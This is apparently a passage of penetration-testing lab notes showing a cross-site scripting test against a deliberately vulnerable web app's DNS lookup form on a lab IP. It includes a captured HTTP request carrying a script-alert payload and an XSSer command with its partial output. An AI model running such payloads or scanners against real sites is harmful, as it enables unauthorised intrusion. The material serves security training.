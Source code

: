 ```http

target_host=TEST&dns-lookup-php-submit-button=Lookup+DNS📌
```
`HTTP Request`:
```http
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: 192.35.189.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.35.189.3/index.php?popUpNotificationCode=SL1&page=dns-lookup.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Connection: close
Cookie: PHPSESSID=gmdic1u6hl06kvbh62eldc4kb2; showhints=1
Upgrade-Insecure-Requests: 1

target_host=<script>alert("TEST");</script>&dns-lookup-php-submit-button=Lookup+DNS📌
```

![Lab - XSS Attack with XSSer 5](./assets/03_xss_attacks_lab_xss_attack_with_xsser_5.png)

`xsser --url 'http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'`:
```
===========================================================================

XSSer v1.8[2]: "The Hiv3!" - (https://xsser.03c8.net) - 2010/2019 -> by psy

===========================================================================
Testing [XSS from URL]...
===========================================================================
===========================================================================
[*] Test: [ 1/1 ] <-> 2024-12-10 20:18:14.148104
===========================================================================

[+] Target: 

 [ http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php ]

[...]
```
